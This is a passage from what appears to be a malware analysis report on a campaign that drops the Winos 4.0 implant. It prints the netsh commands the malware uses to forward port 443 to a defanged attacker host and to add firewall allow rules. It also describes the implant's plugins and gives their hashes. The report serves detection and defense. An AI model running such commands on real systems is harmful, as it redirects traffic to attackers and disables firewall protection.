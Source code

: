 The malware also uses the *netsh* command to set up port forwarding and configure firewall rules named “Safe<integer>” on the victim’s machine, thereby whitelisting inbound and outbound traffic related to the malware for all network profiles.

It establishes a rule for IPv4-to-IPv4 port forwarding. Specifically, it designates port 443 as the listening port on the local machine, where incoming connections will be received. It specifies a destination address (*103.214.147.14[.]webcamcn[.]xyz*), indicating where the forwarded traffic will be directed. Additionally, it designates port 443 on the destination server as the port to which the incoming traffic will be forwarded. This configuration redirects traffic from the local machine's port 443 to the specified destination address and port.

netsh interface portproxy add v4tov4 listenport=443 connectaddress=103[.]214[.]147[.]14[.]webcamcn[.]xyz connectport=443

Figure 24. Configuring port forwarding

netsh advfirewall firewall add rule name="Safe1" dir=in action=allow program=" C:\Program Files (x86)\Common Files\Microsoft Shared\VGX\app-3.4.0\LetsPRO.exe"

Figure 25. Configuring firewall rule

Figure 26. List of created firewall rules

Finally, the malware passes the execution to the Winos 4.0 stager in memory.

### Winos 4.0 C&C framework overview

The final payload of this attack is the Winos 4.0 implant, which is written in C++ and targets the Windows platform. Winos has features that include file management, [distributed denial of service (DDoS)](https://www.trendmicro.com/vinfo/tmr/?/us/security/news/cyber-attacks/security-101-distributed-denial-of-service-ddos-attacks) using TCP/UDP/ ICMP/HTTP, full disk search, webcam control, and screen capturing. Additionally, it supports many functionalities including process injection and microphone recording, system and service management, remote shell access, and keylogging functionalities, further enhancing its ability to control and monitor the infected system.

Figure 27. Winos 4.0 operator panel

The Winos C&C server is equipped with 23 internal plugins, each compiled in both 32- and 64-bit versions, to execute a variety of tasks. Table 3 shows the complete list of these plugins, along with their respective SHA256 hashes:

|  |  |  |
| --- | --- | --- |
| **Simplified Chinese module names** | **Translated module names** | **SHA256 hash** |
| 播放监听.dll | Play monitor.dll | 7ed8c7ea5e2feeadb1966f53c48ab3a580f53a4d20725031d764db7e962607a9 |
| 查注册表.dll | check registry.dll | 49120dfcef430df1c90c9c370b92b969c876b9b4327d81eae720cd71fcd75b87 |
| 差异屏幕.dll | difference screen.dll | 5f7e00017b16db29fa7cba60993d7af909ef41d3fe9d3f7ca9f693c1f7ef6d37 |
| 代理映射.dll | proxy mapping.dll | 023822a8ad26f2d7330a2afa310ccf943058f2765b7cbc6975c51c144739b55f |
| 服务管理.dll | service management.dll | 3ac0afec0ce29b69d57c54663c6e4fa6fee703696069cb5b8f00783b5504cf80 |
| 高速屏幕.dll | high-speed screen.dll | bc01cf528086de6a1b231dee01c1624cf58911b171904bf7a6b08ddfba661d83 |
| 后台屏幕.dll | Background Screen.dll | 2066dd040fe020ca32e5ebfeeb4fa75094d3ac43155c83fe222f380d4940df42 |
| 急速搜索.dll | Rapid Search.dll | 5759fc938f228579fc5e64e74cee083581a975d4054deb715c0f371b66b96263 |
| 键盘记录.dll | Keylogger.dll | 976837663b25f793470f24925198b06e79a72ede014a84ba62311fadede5062f |
| 上线模块.exe (stager) | Online Module.dll | 436499efe94c7a1bfefaa84c52f8187bffb3d4d1a49de1cbc8885e7807d11b42 |
| 上线模块.dll (stager) | Online Module.dll | 5684fc4f33c168519b2fdcae59cc3be2e6db1f0b0f3718524ef57e0e7423f59d |
| 视频查看.dll | Video Viewing.dll | 7a3841a5315c01df299d8844b62dc150b1c3e5b5ebe7547c1a211349879659af |
| 视频查看.dll | Video Surveillance.dll | 7a3841a5315c01df299d8844b62dc150b1c3e5b5ebe7547c1a211349879659af |
| 文件管理.dll | File Management.dll | 5abc2006c7a3a27e033075ba881a668aba5e70797677ed2220f7ab9fb36fc927 |